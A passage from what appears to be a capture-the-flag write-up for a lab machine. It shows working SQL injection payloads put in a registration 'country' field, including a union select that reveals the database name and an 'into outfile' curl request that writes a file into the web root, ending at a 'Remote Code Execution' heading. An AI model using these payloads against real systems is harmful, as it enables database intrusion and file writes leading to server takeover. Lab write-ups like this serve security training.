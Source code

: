 Now we can see the database name:

```html
<div class="container"><h1 class="text-center m-5">Join the UHC - September Qualifiers</h1></div>
    <section class="bg-dark text-center p-5 mt-4">
        <div class="container p-5">
            <h1 class="text-white">Welcome pencer9</h1>
            <h3 class="text-white">Other Players In Belgium' union select database();-- -</h3>
            <li class='text-white'>pencer1</li><li class='text-white'>pencer2</li>
            <li class='text-white'>registration</li>
        </div>
        </section>
</div>
```

## Web Shell

I played around for a long time before I and found [this](https://neetech18.blogspot.com/2019/10/sql-injection-with-file-upload.html) article that talks about using outfile to write a file to the server. We can use it to test by writing a txt file:

```text
┌──(root💀kali)-[~/htb/validation]
└─# curl -v -d "username=pencer12&country=Belgium' union select 'pencer testing' into outfile '/var/www/html/pencer.txt';-- - " http://10.10.11.116                   
<SNIP>                                                                                                       
┌──(root💀kali)-[~/htb/validation]
└─# curl -v --cookie "user=71a27465cf506efbfa176a629b055338" http://10.10.11.116/account.php
```

The html response shows an error like we had earlier:

```html
<div class="container"><h1 class="text-center m-5">Join the UHC - September Qualifiers</h1></div>
    <section class="bg-dark text-center p-5 mt-4">
        <div class="container p-5">
            <h1 class="text-white">Welcome pencer12</h1>
            <h3 class="text-white">Other Players In Belgium' union select 'pencer testing' into outfile '/var/www/html/pencer.txt';-- - </h3>
            <br />
            <b>Fatal error</b>:  Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33
            Stack trace: #0 {main} thrown in <b>/var/www/html/account.php</b> on line <b>33</b><br />
```

Luckily I checked if the file was written, otherwise I could have gone down another rabbit hole:

```text
┌──(root💀kali)-[~/htb/validation]
└─# curl http://10.10.11.116/pencer.txt                                                     
pencer testing
```

## Remote Code Execution
